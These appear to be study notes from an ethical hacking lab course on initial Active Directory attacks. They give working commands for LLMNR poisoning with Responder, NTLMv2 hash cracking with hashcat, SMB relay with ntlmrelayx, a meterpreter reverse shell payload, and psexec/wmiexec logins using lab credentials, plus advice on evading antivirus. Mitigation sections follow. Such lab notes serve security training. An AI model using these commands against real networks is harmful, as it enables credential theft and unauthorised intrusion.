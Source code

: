 # Attacking AD: Initial Attack Vectors

## LLMNR POISONING
### Link Local Multicast Name Resolution
(like DNS kindof)

From impacket, run **responder**
``` 
python /usr/share/responder/Responder.py -I eth0 -rdwv
```
> v for verbose

To capture the hashes, while running responder, go to the Windows machine and from Quick Access search and type the Linux IP 
e.g. 
`\\10.10.10.7`

That triggers a result on responder, including the `NTLMv2-SSP Hash` (e.g. for fcastle::MARVEL)

Can then provide the hash to **hashcat** to get the password 

> Better to run hashcat on our actual machine instead of the virtual machine, for more computing power

Enter the hashes into a file (one per line)
E.g.
```
gedit ntlmhash.txt
```
Enter:
```
fcastle::MARVEL:....hash...
```

Run 
```
hashcat --help | grep NTLM
	5500 | NetNTLMv1 / NetNTLMv1+ESS	| Network Protocols
	5600 | NetNTLMv2					| Network Protocols
	1000 | NTLM							| Operating System
```

We find out we need to use module 5600 as the hash we captured was NTLMv2
Run hashcat:

```
hashcat -m 5600 ntlmhash.txt /usr/share/wordlists/rockyou.txt --force
```

If we had run hashcat on Windows:
```
cd c:\users\alexia\desktop\hashcat-4.2.1
hashcat64.exe -m 5600 hashes4.txt rockyou.txt -O
```
- `-O` for optimise

Try to also create custom wordlists based on the season, year etc.

## LLMNR Poisoning Mitigation

**LLMNR**: Link-Local Multicast Resolution
is a protocol based on the DNS packet format that allows both IPv4 and IPv6 hosts to perform name resolution for hosts on the same local link

If LLMNR fails, it goes to NBT-NS and vice versa. Hence, need to disable both.
- Disable LLMNR and NBT-NS
	- LLMNR: Local Computer Policy > Computer Configuration > Administrative Templates > Network > Group Policy Editor > DNS client > select "Turn OFF Multicast Name Resolution"
	- NBT-NS: Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > "Disable NetBIOS over TCP/IP"

If no option to disable, best alternative mitigating action:
- Require Network Access Control (enable it)
	- i.e. cannot just plug into any port and join the network. Shut port down or don't let anyone who doesn't belong there
- Requirement of strong user passwords (complex and long)


***
## SMB Relay
**SMB** - Server Message Block
is a protocol for sharing files, printers, ports etc. b/w devices

> SMB typically runs on port 445

Instead of cracking hashes gathered by Repsonder, can relay them to specific machines and potentially gain access

Requirements:
- SMB signing must be disabled on the target 
- relayed user credentials must be admin on machine

SMB signing is a packet level protocol. If enabled, it will tell us the packet is not signed by the actual user, i.e. we won't be authenticated and the relay will not succeed

If SMB signing is disabled, it will not check for authentication

From W1, relay on W2
- we capture the credentials and hash from W1
- because frank castle is a local administrator for both machines, we can relay those credentials to W2 and gain access
- W2 must have SMB signing disabled for this attack to succeed

First, need to find out if SMB signing is disabled.
Can do with nessus, or other software or nmap (scan whole network)
```
sudo nmap --script=smb2-security=mode.nse -p445 10.10.10.0/24 
```

We find that the server 10.10.10.6 has `SMB enabled and required` (which is default for DC's / Servers) but both workstations (10.10.10.4 and 10.10.10.5) have `SMB enabled but not required` i.e. we can still attack them

add our targets to a targets.txt file (one IP per line)

Change responder configuration to SMB and HTTP to Off. We want to only listen for now and not respond.
```
gedit /etc/responder/Responder.conf
```

```
sudo /usr/share/responder/Responder.py -I eth0 -rwdv
```

now run
```
sudo ntlmrelayx.py -tf targets.txt -smb2support
```

If we get an error cause a port is being used can check. E.g. with SMB port:
```
sudo lsof -i :445
```

To kill that process:
```
sudo kill -9 <PID>
```

To start an interactive session run:
```
sudo ntlmrelayx.py -tf targets.txt -smb2support -i
```
this will give us access to the SMB process and we can access the SMB shell by listenting on the port that ntlmrelayx directs us to.
```
nc 127.0.0.1 11000
```
From there we get the SMB command shell. 
Type `help` to see the commands. 
Can type `shares` to see the different shares/folders we have access to 
Can use smb commands e.g. `use ADMIN$` or `use C$`
e.g. `use C$` gives us access to the C folder, `ls` to view the contents... etc.
Can also use other options with ntlmrelayx like `-c` to run commands, `-e` to execute something (like a shell) etc.


## SMB Relay Mitigation

### Enable SMB Signing on all devices
- Pro: completely stops the attack
- Con: can cause performance issues with file copies

### Disable NTLM authentication on network
- Pro: completely stops the attack
- Con: If Kerberos stops working, Windows defaults back to NTLM anyway

### Account tiering
e.g. a domain admin is restricted to log into admin accounts, servers, DC's and not user accounts
- Pro: Limits domain admins to specific tasks (e.g. only log onto servers with need for DA)
- Con: Enforcing policy may be difficult

### Local admin restriction
e.g. do not have local admin's
- Pro: can prevent a lot of lateral movement
- Con: potential increase in the amount of service desk tickets
***
## Gaining Shell Access

![](https://github.com/Cyberd0xed/practical-ethical-hacking/blob/main/resources/6003a23b2a984443bbd9abd80b89bf64.png?raw=true)

Need to also set the right payload
```
> set payload windows/x64/meterpreter/reverse_tcp
> set lhost eth0
```

ran the same attack for 10.10.10.4 (and zpark, Password2) as we had issues with the fcastle machine

used metasploit but didn't work. Instead used
```
sudo psexec.py marvel.local/zpark:Password2@10.10.10.4
```
got system!

Can also try and run (more obscure, more quiet):
```
sudo smbexec.py marvel.local/zpark:Password2@10.10.10.4
sudo wmiexec.py marvel.local/zpark:Password2@10.10.10.4
```

psexec far noisier than psexec. Try to use others and see what AV is running to then find out how to disable it

Get in quietly first..

